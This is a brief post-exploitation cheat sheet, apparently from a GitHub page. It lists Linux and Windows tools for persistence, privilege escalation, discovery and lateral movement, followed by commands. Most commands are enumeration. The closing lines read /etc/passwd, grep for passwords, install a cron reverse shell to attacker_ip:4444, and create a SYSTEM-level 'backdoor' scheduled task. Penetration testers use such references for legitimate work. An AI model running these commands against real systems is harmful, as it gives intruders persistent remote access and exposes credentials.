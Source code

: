  Post-Exploitation Tools

 Persistence

 Linux
- crontab: Scheduled tasks
- systemd: Service persistence
- bashrc: Profile persistence

 Windows
- schtasks: Scheduled tasks
- reg: Registry modification
- services: Service installation

 Privilege Escalation

 Linux
- linpeas: Automated enumeration
- linuxprivchecker: Privilege checker
- linux-exploit-suggester: Exploit suggestions

 Windows
- winpeas: Windows enumeration
- powerup: PowerShell privilege escalation
- windows-exploit-suggester: Exploit suggestions

 Data Collection

 File Discovery
- find: Linux file search
- dir: Windows directory listing
- grep: Text search

 Network Discovery
- netstat: Network connections
- arp: ARP table
- route: Routing table

 Lateral Movement

 Windows
- psexec: Remote execution
- wmic: WMI commands
- powershell: PowerShell remoting

 Linux
- ssh: Secure shell
- rdesktop: Remote desktop
- nc: Netcat

 Scripts Úteis

```bash
 System Information
uname -a
cat /etc/passwd
whoami
id

 Network Information
ifconfig
netstat -antp
arp -a
route -n

 File Discovery
find / -name "*.txt" 2>/dev/null
find / -perm -4000 2>/dev/null
grep -r "password" /etc/ 2>/dev/null

 Windows enumeration
systeminfo
net user
net localgroup administrators
wmic qfe list

 Persistence Linux
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/attacker_ip/4444 0>&1'" | crontab -

 Persistence Windows
schtasks /create /tn "backdoor" /tr "C:\backdoor.exe" /sc onstart /ru system
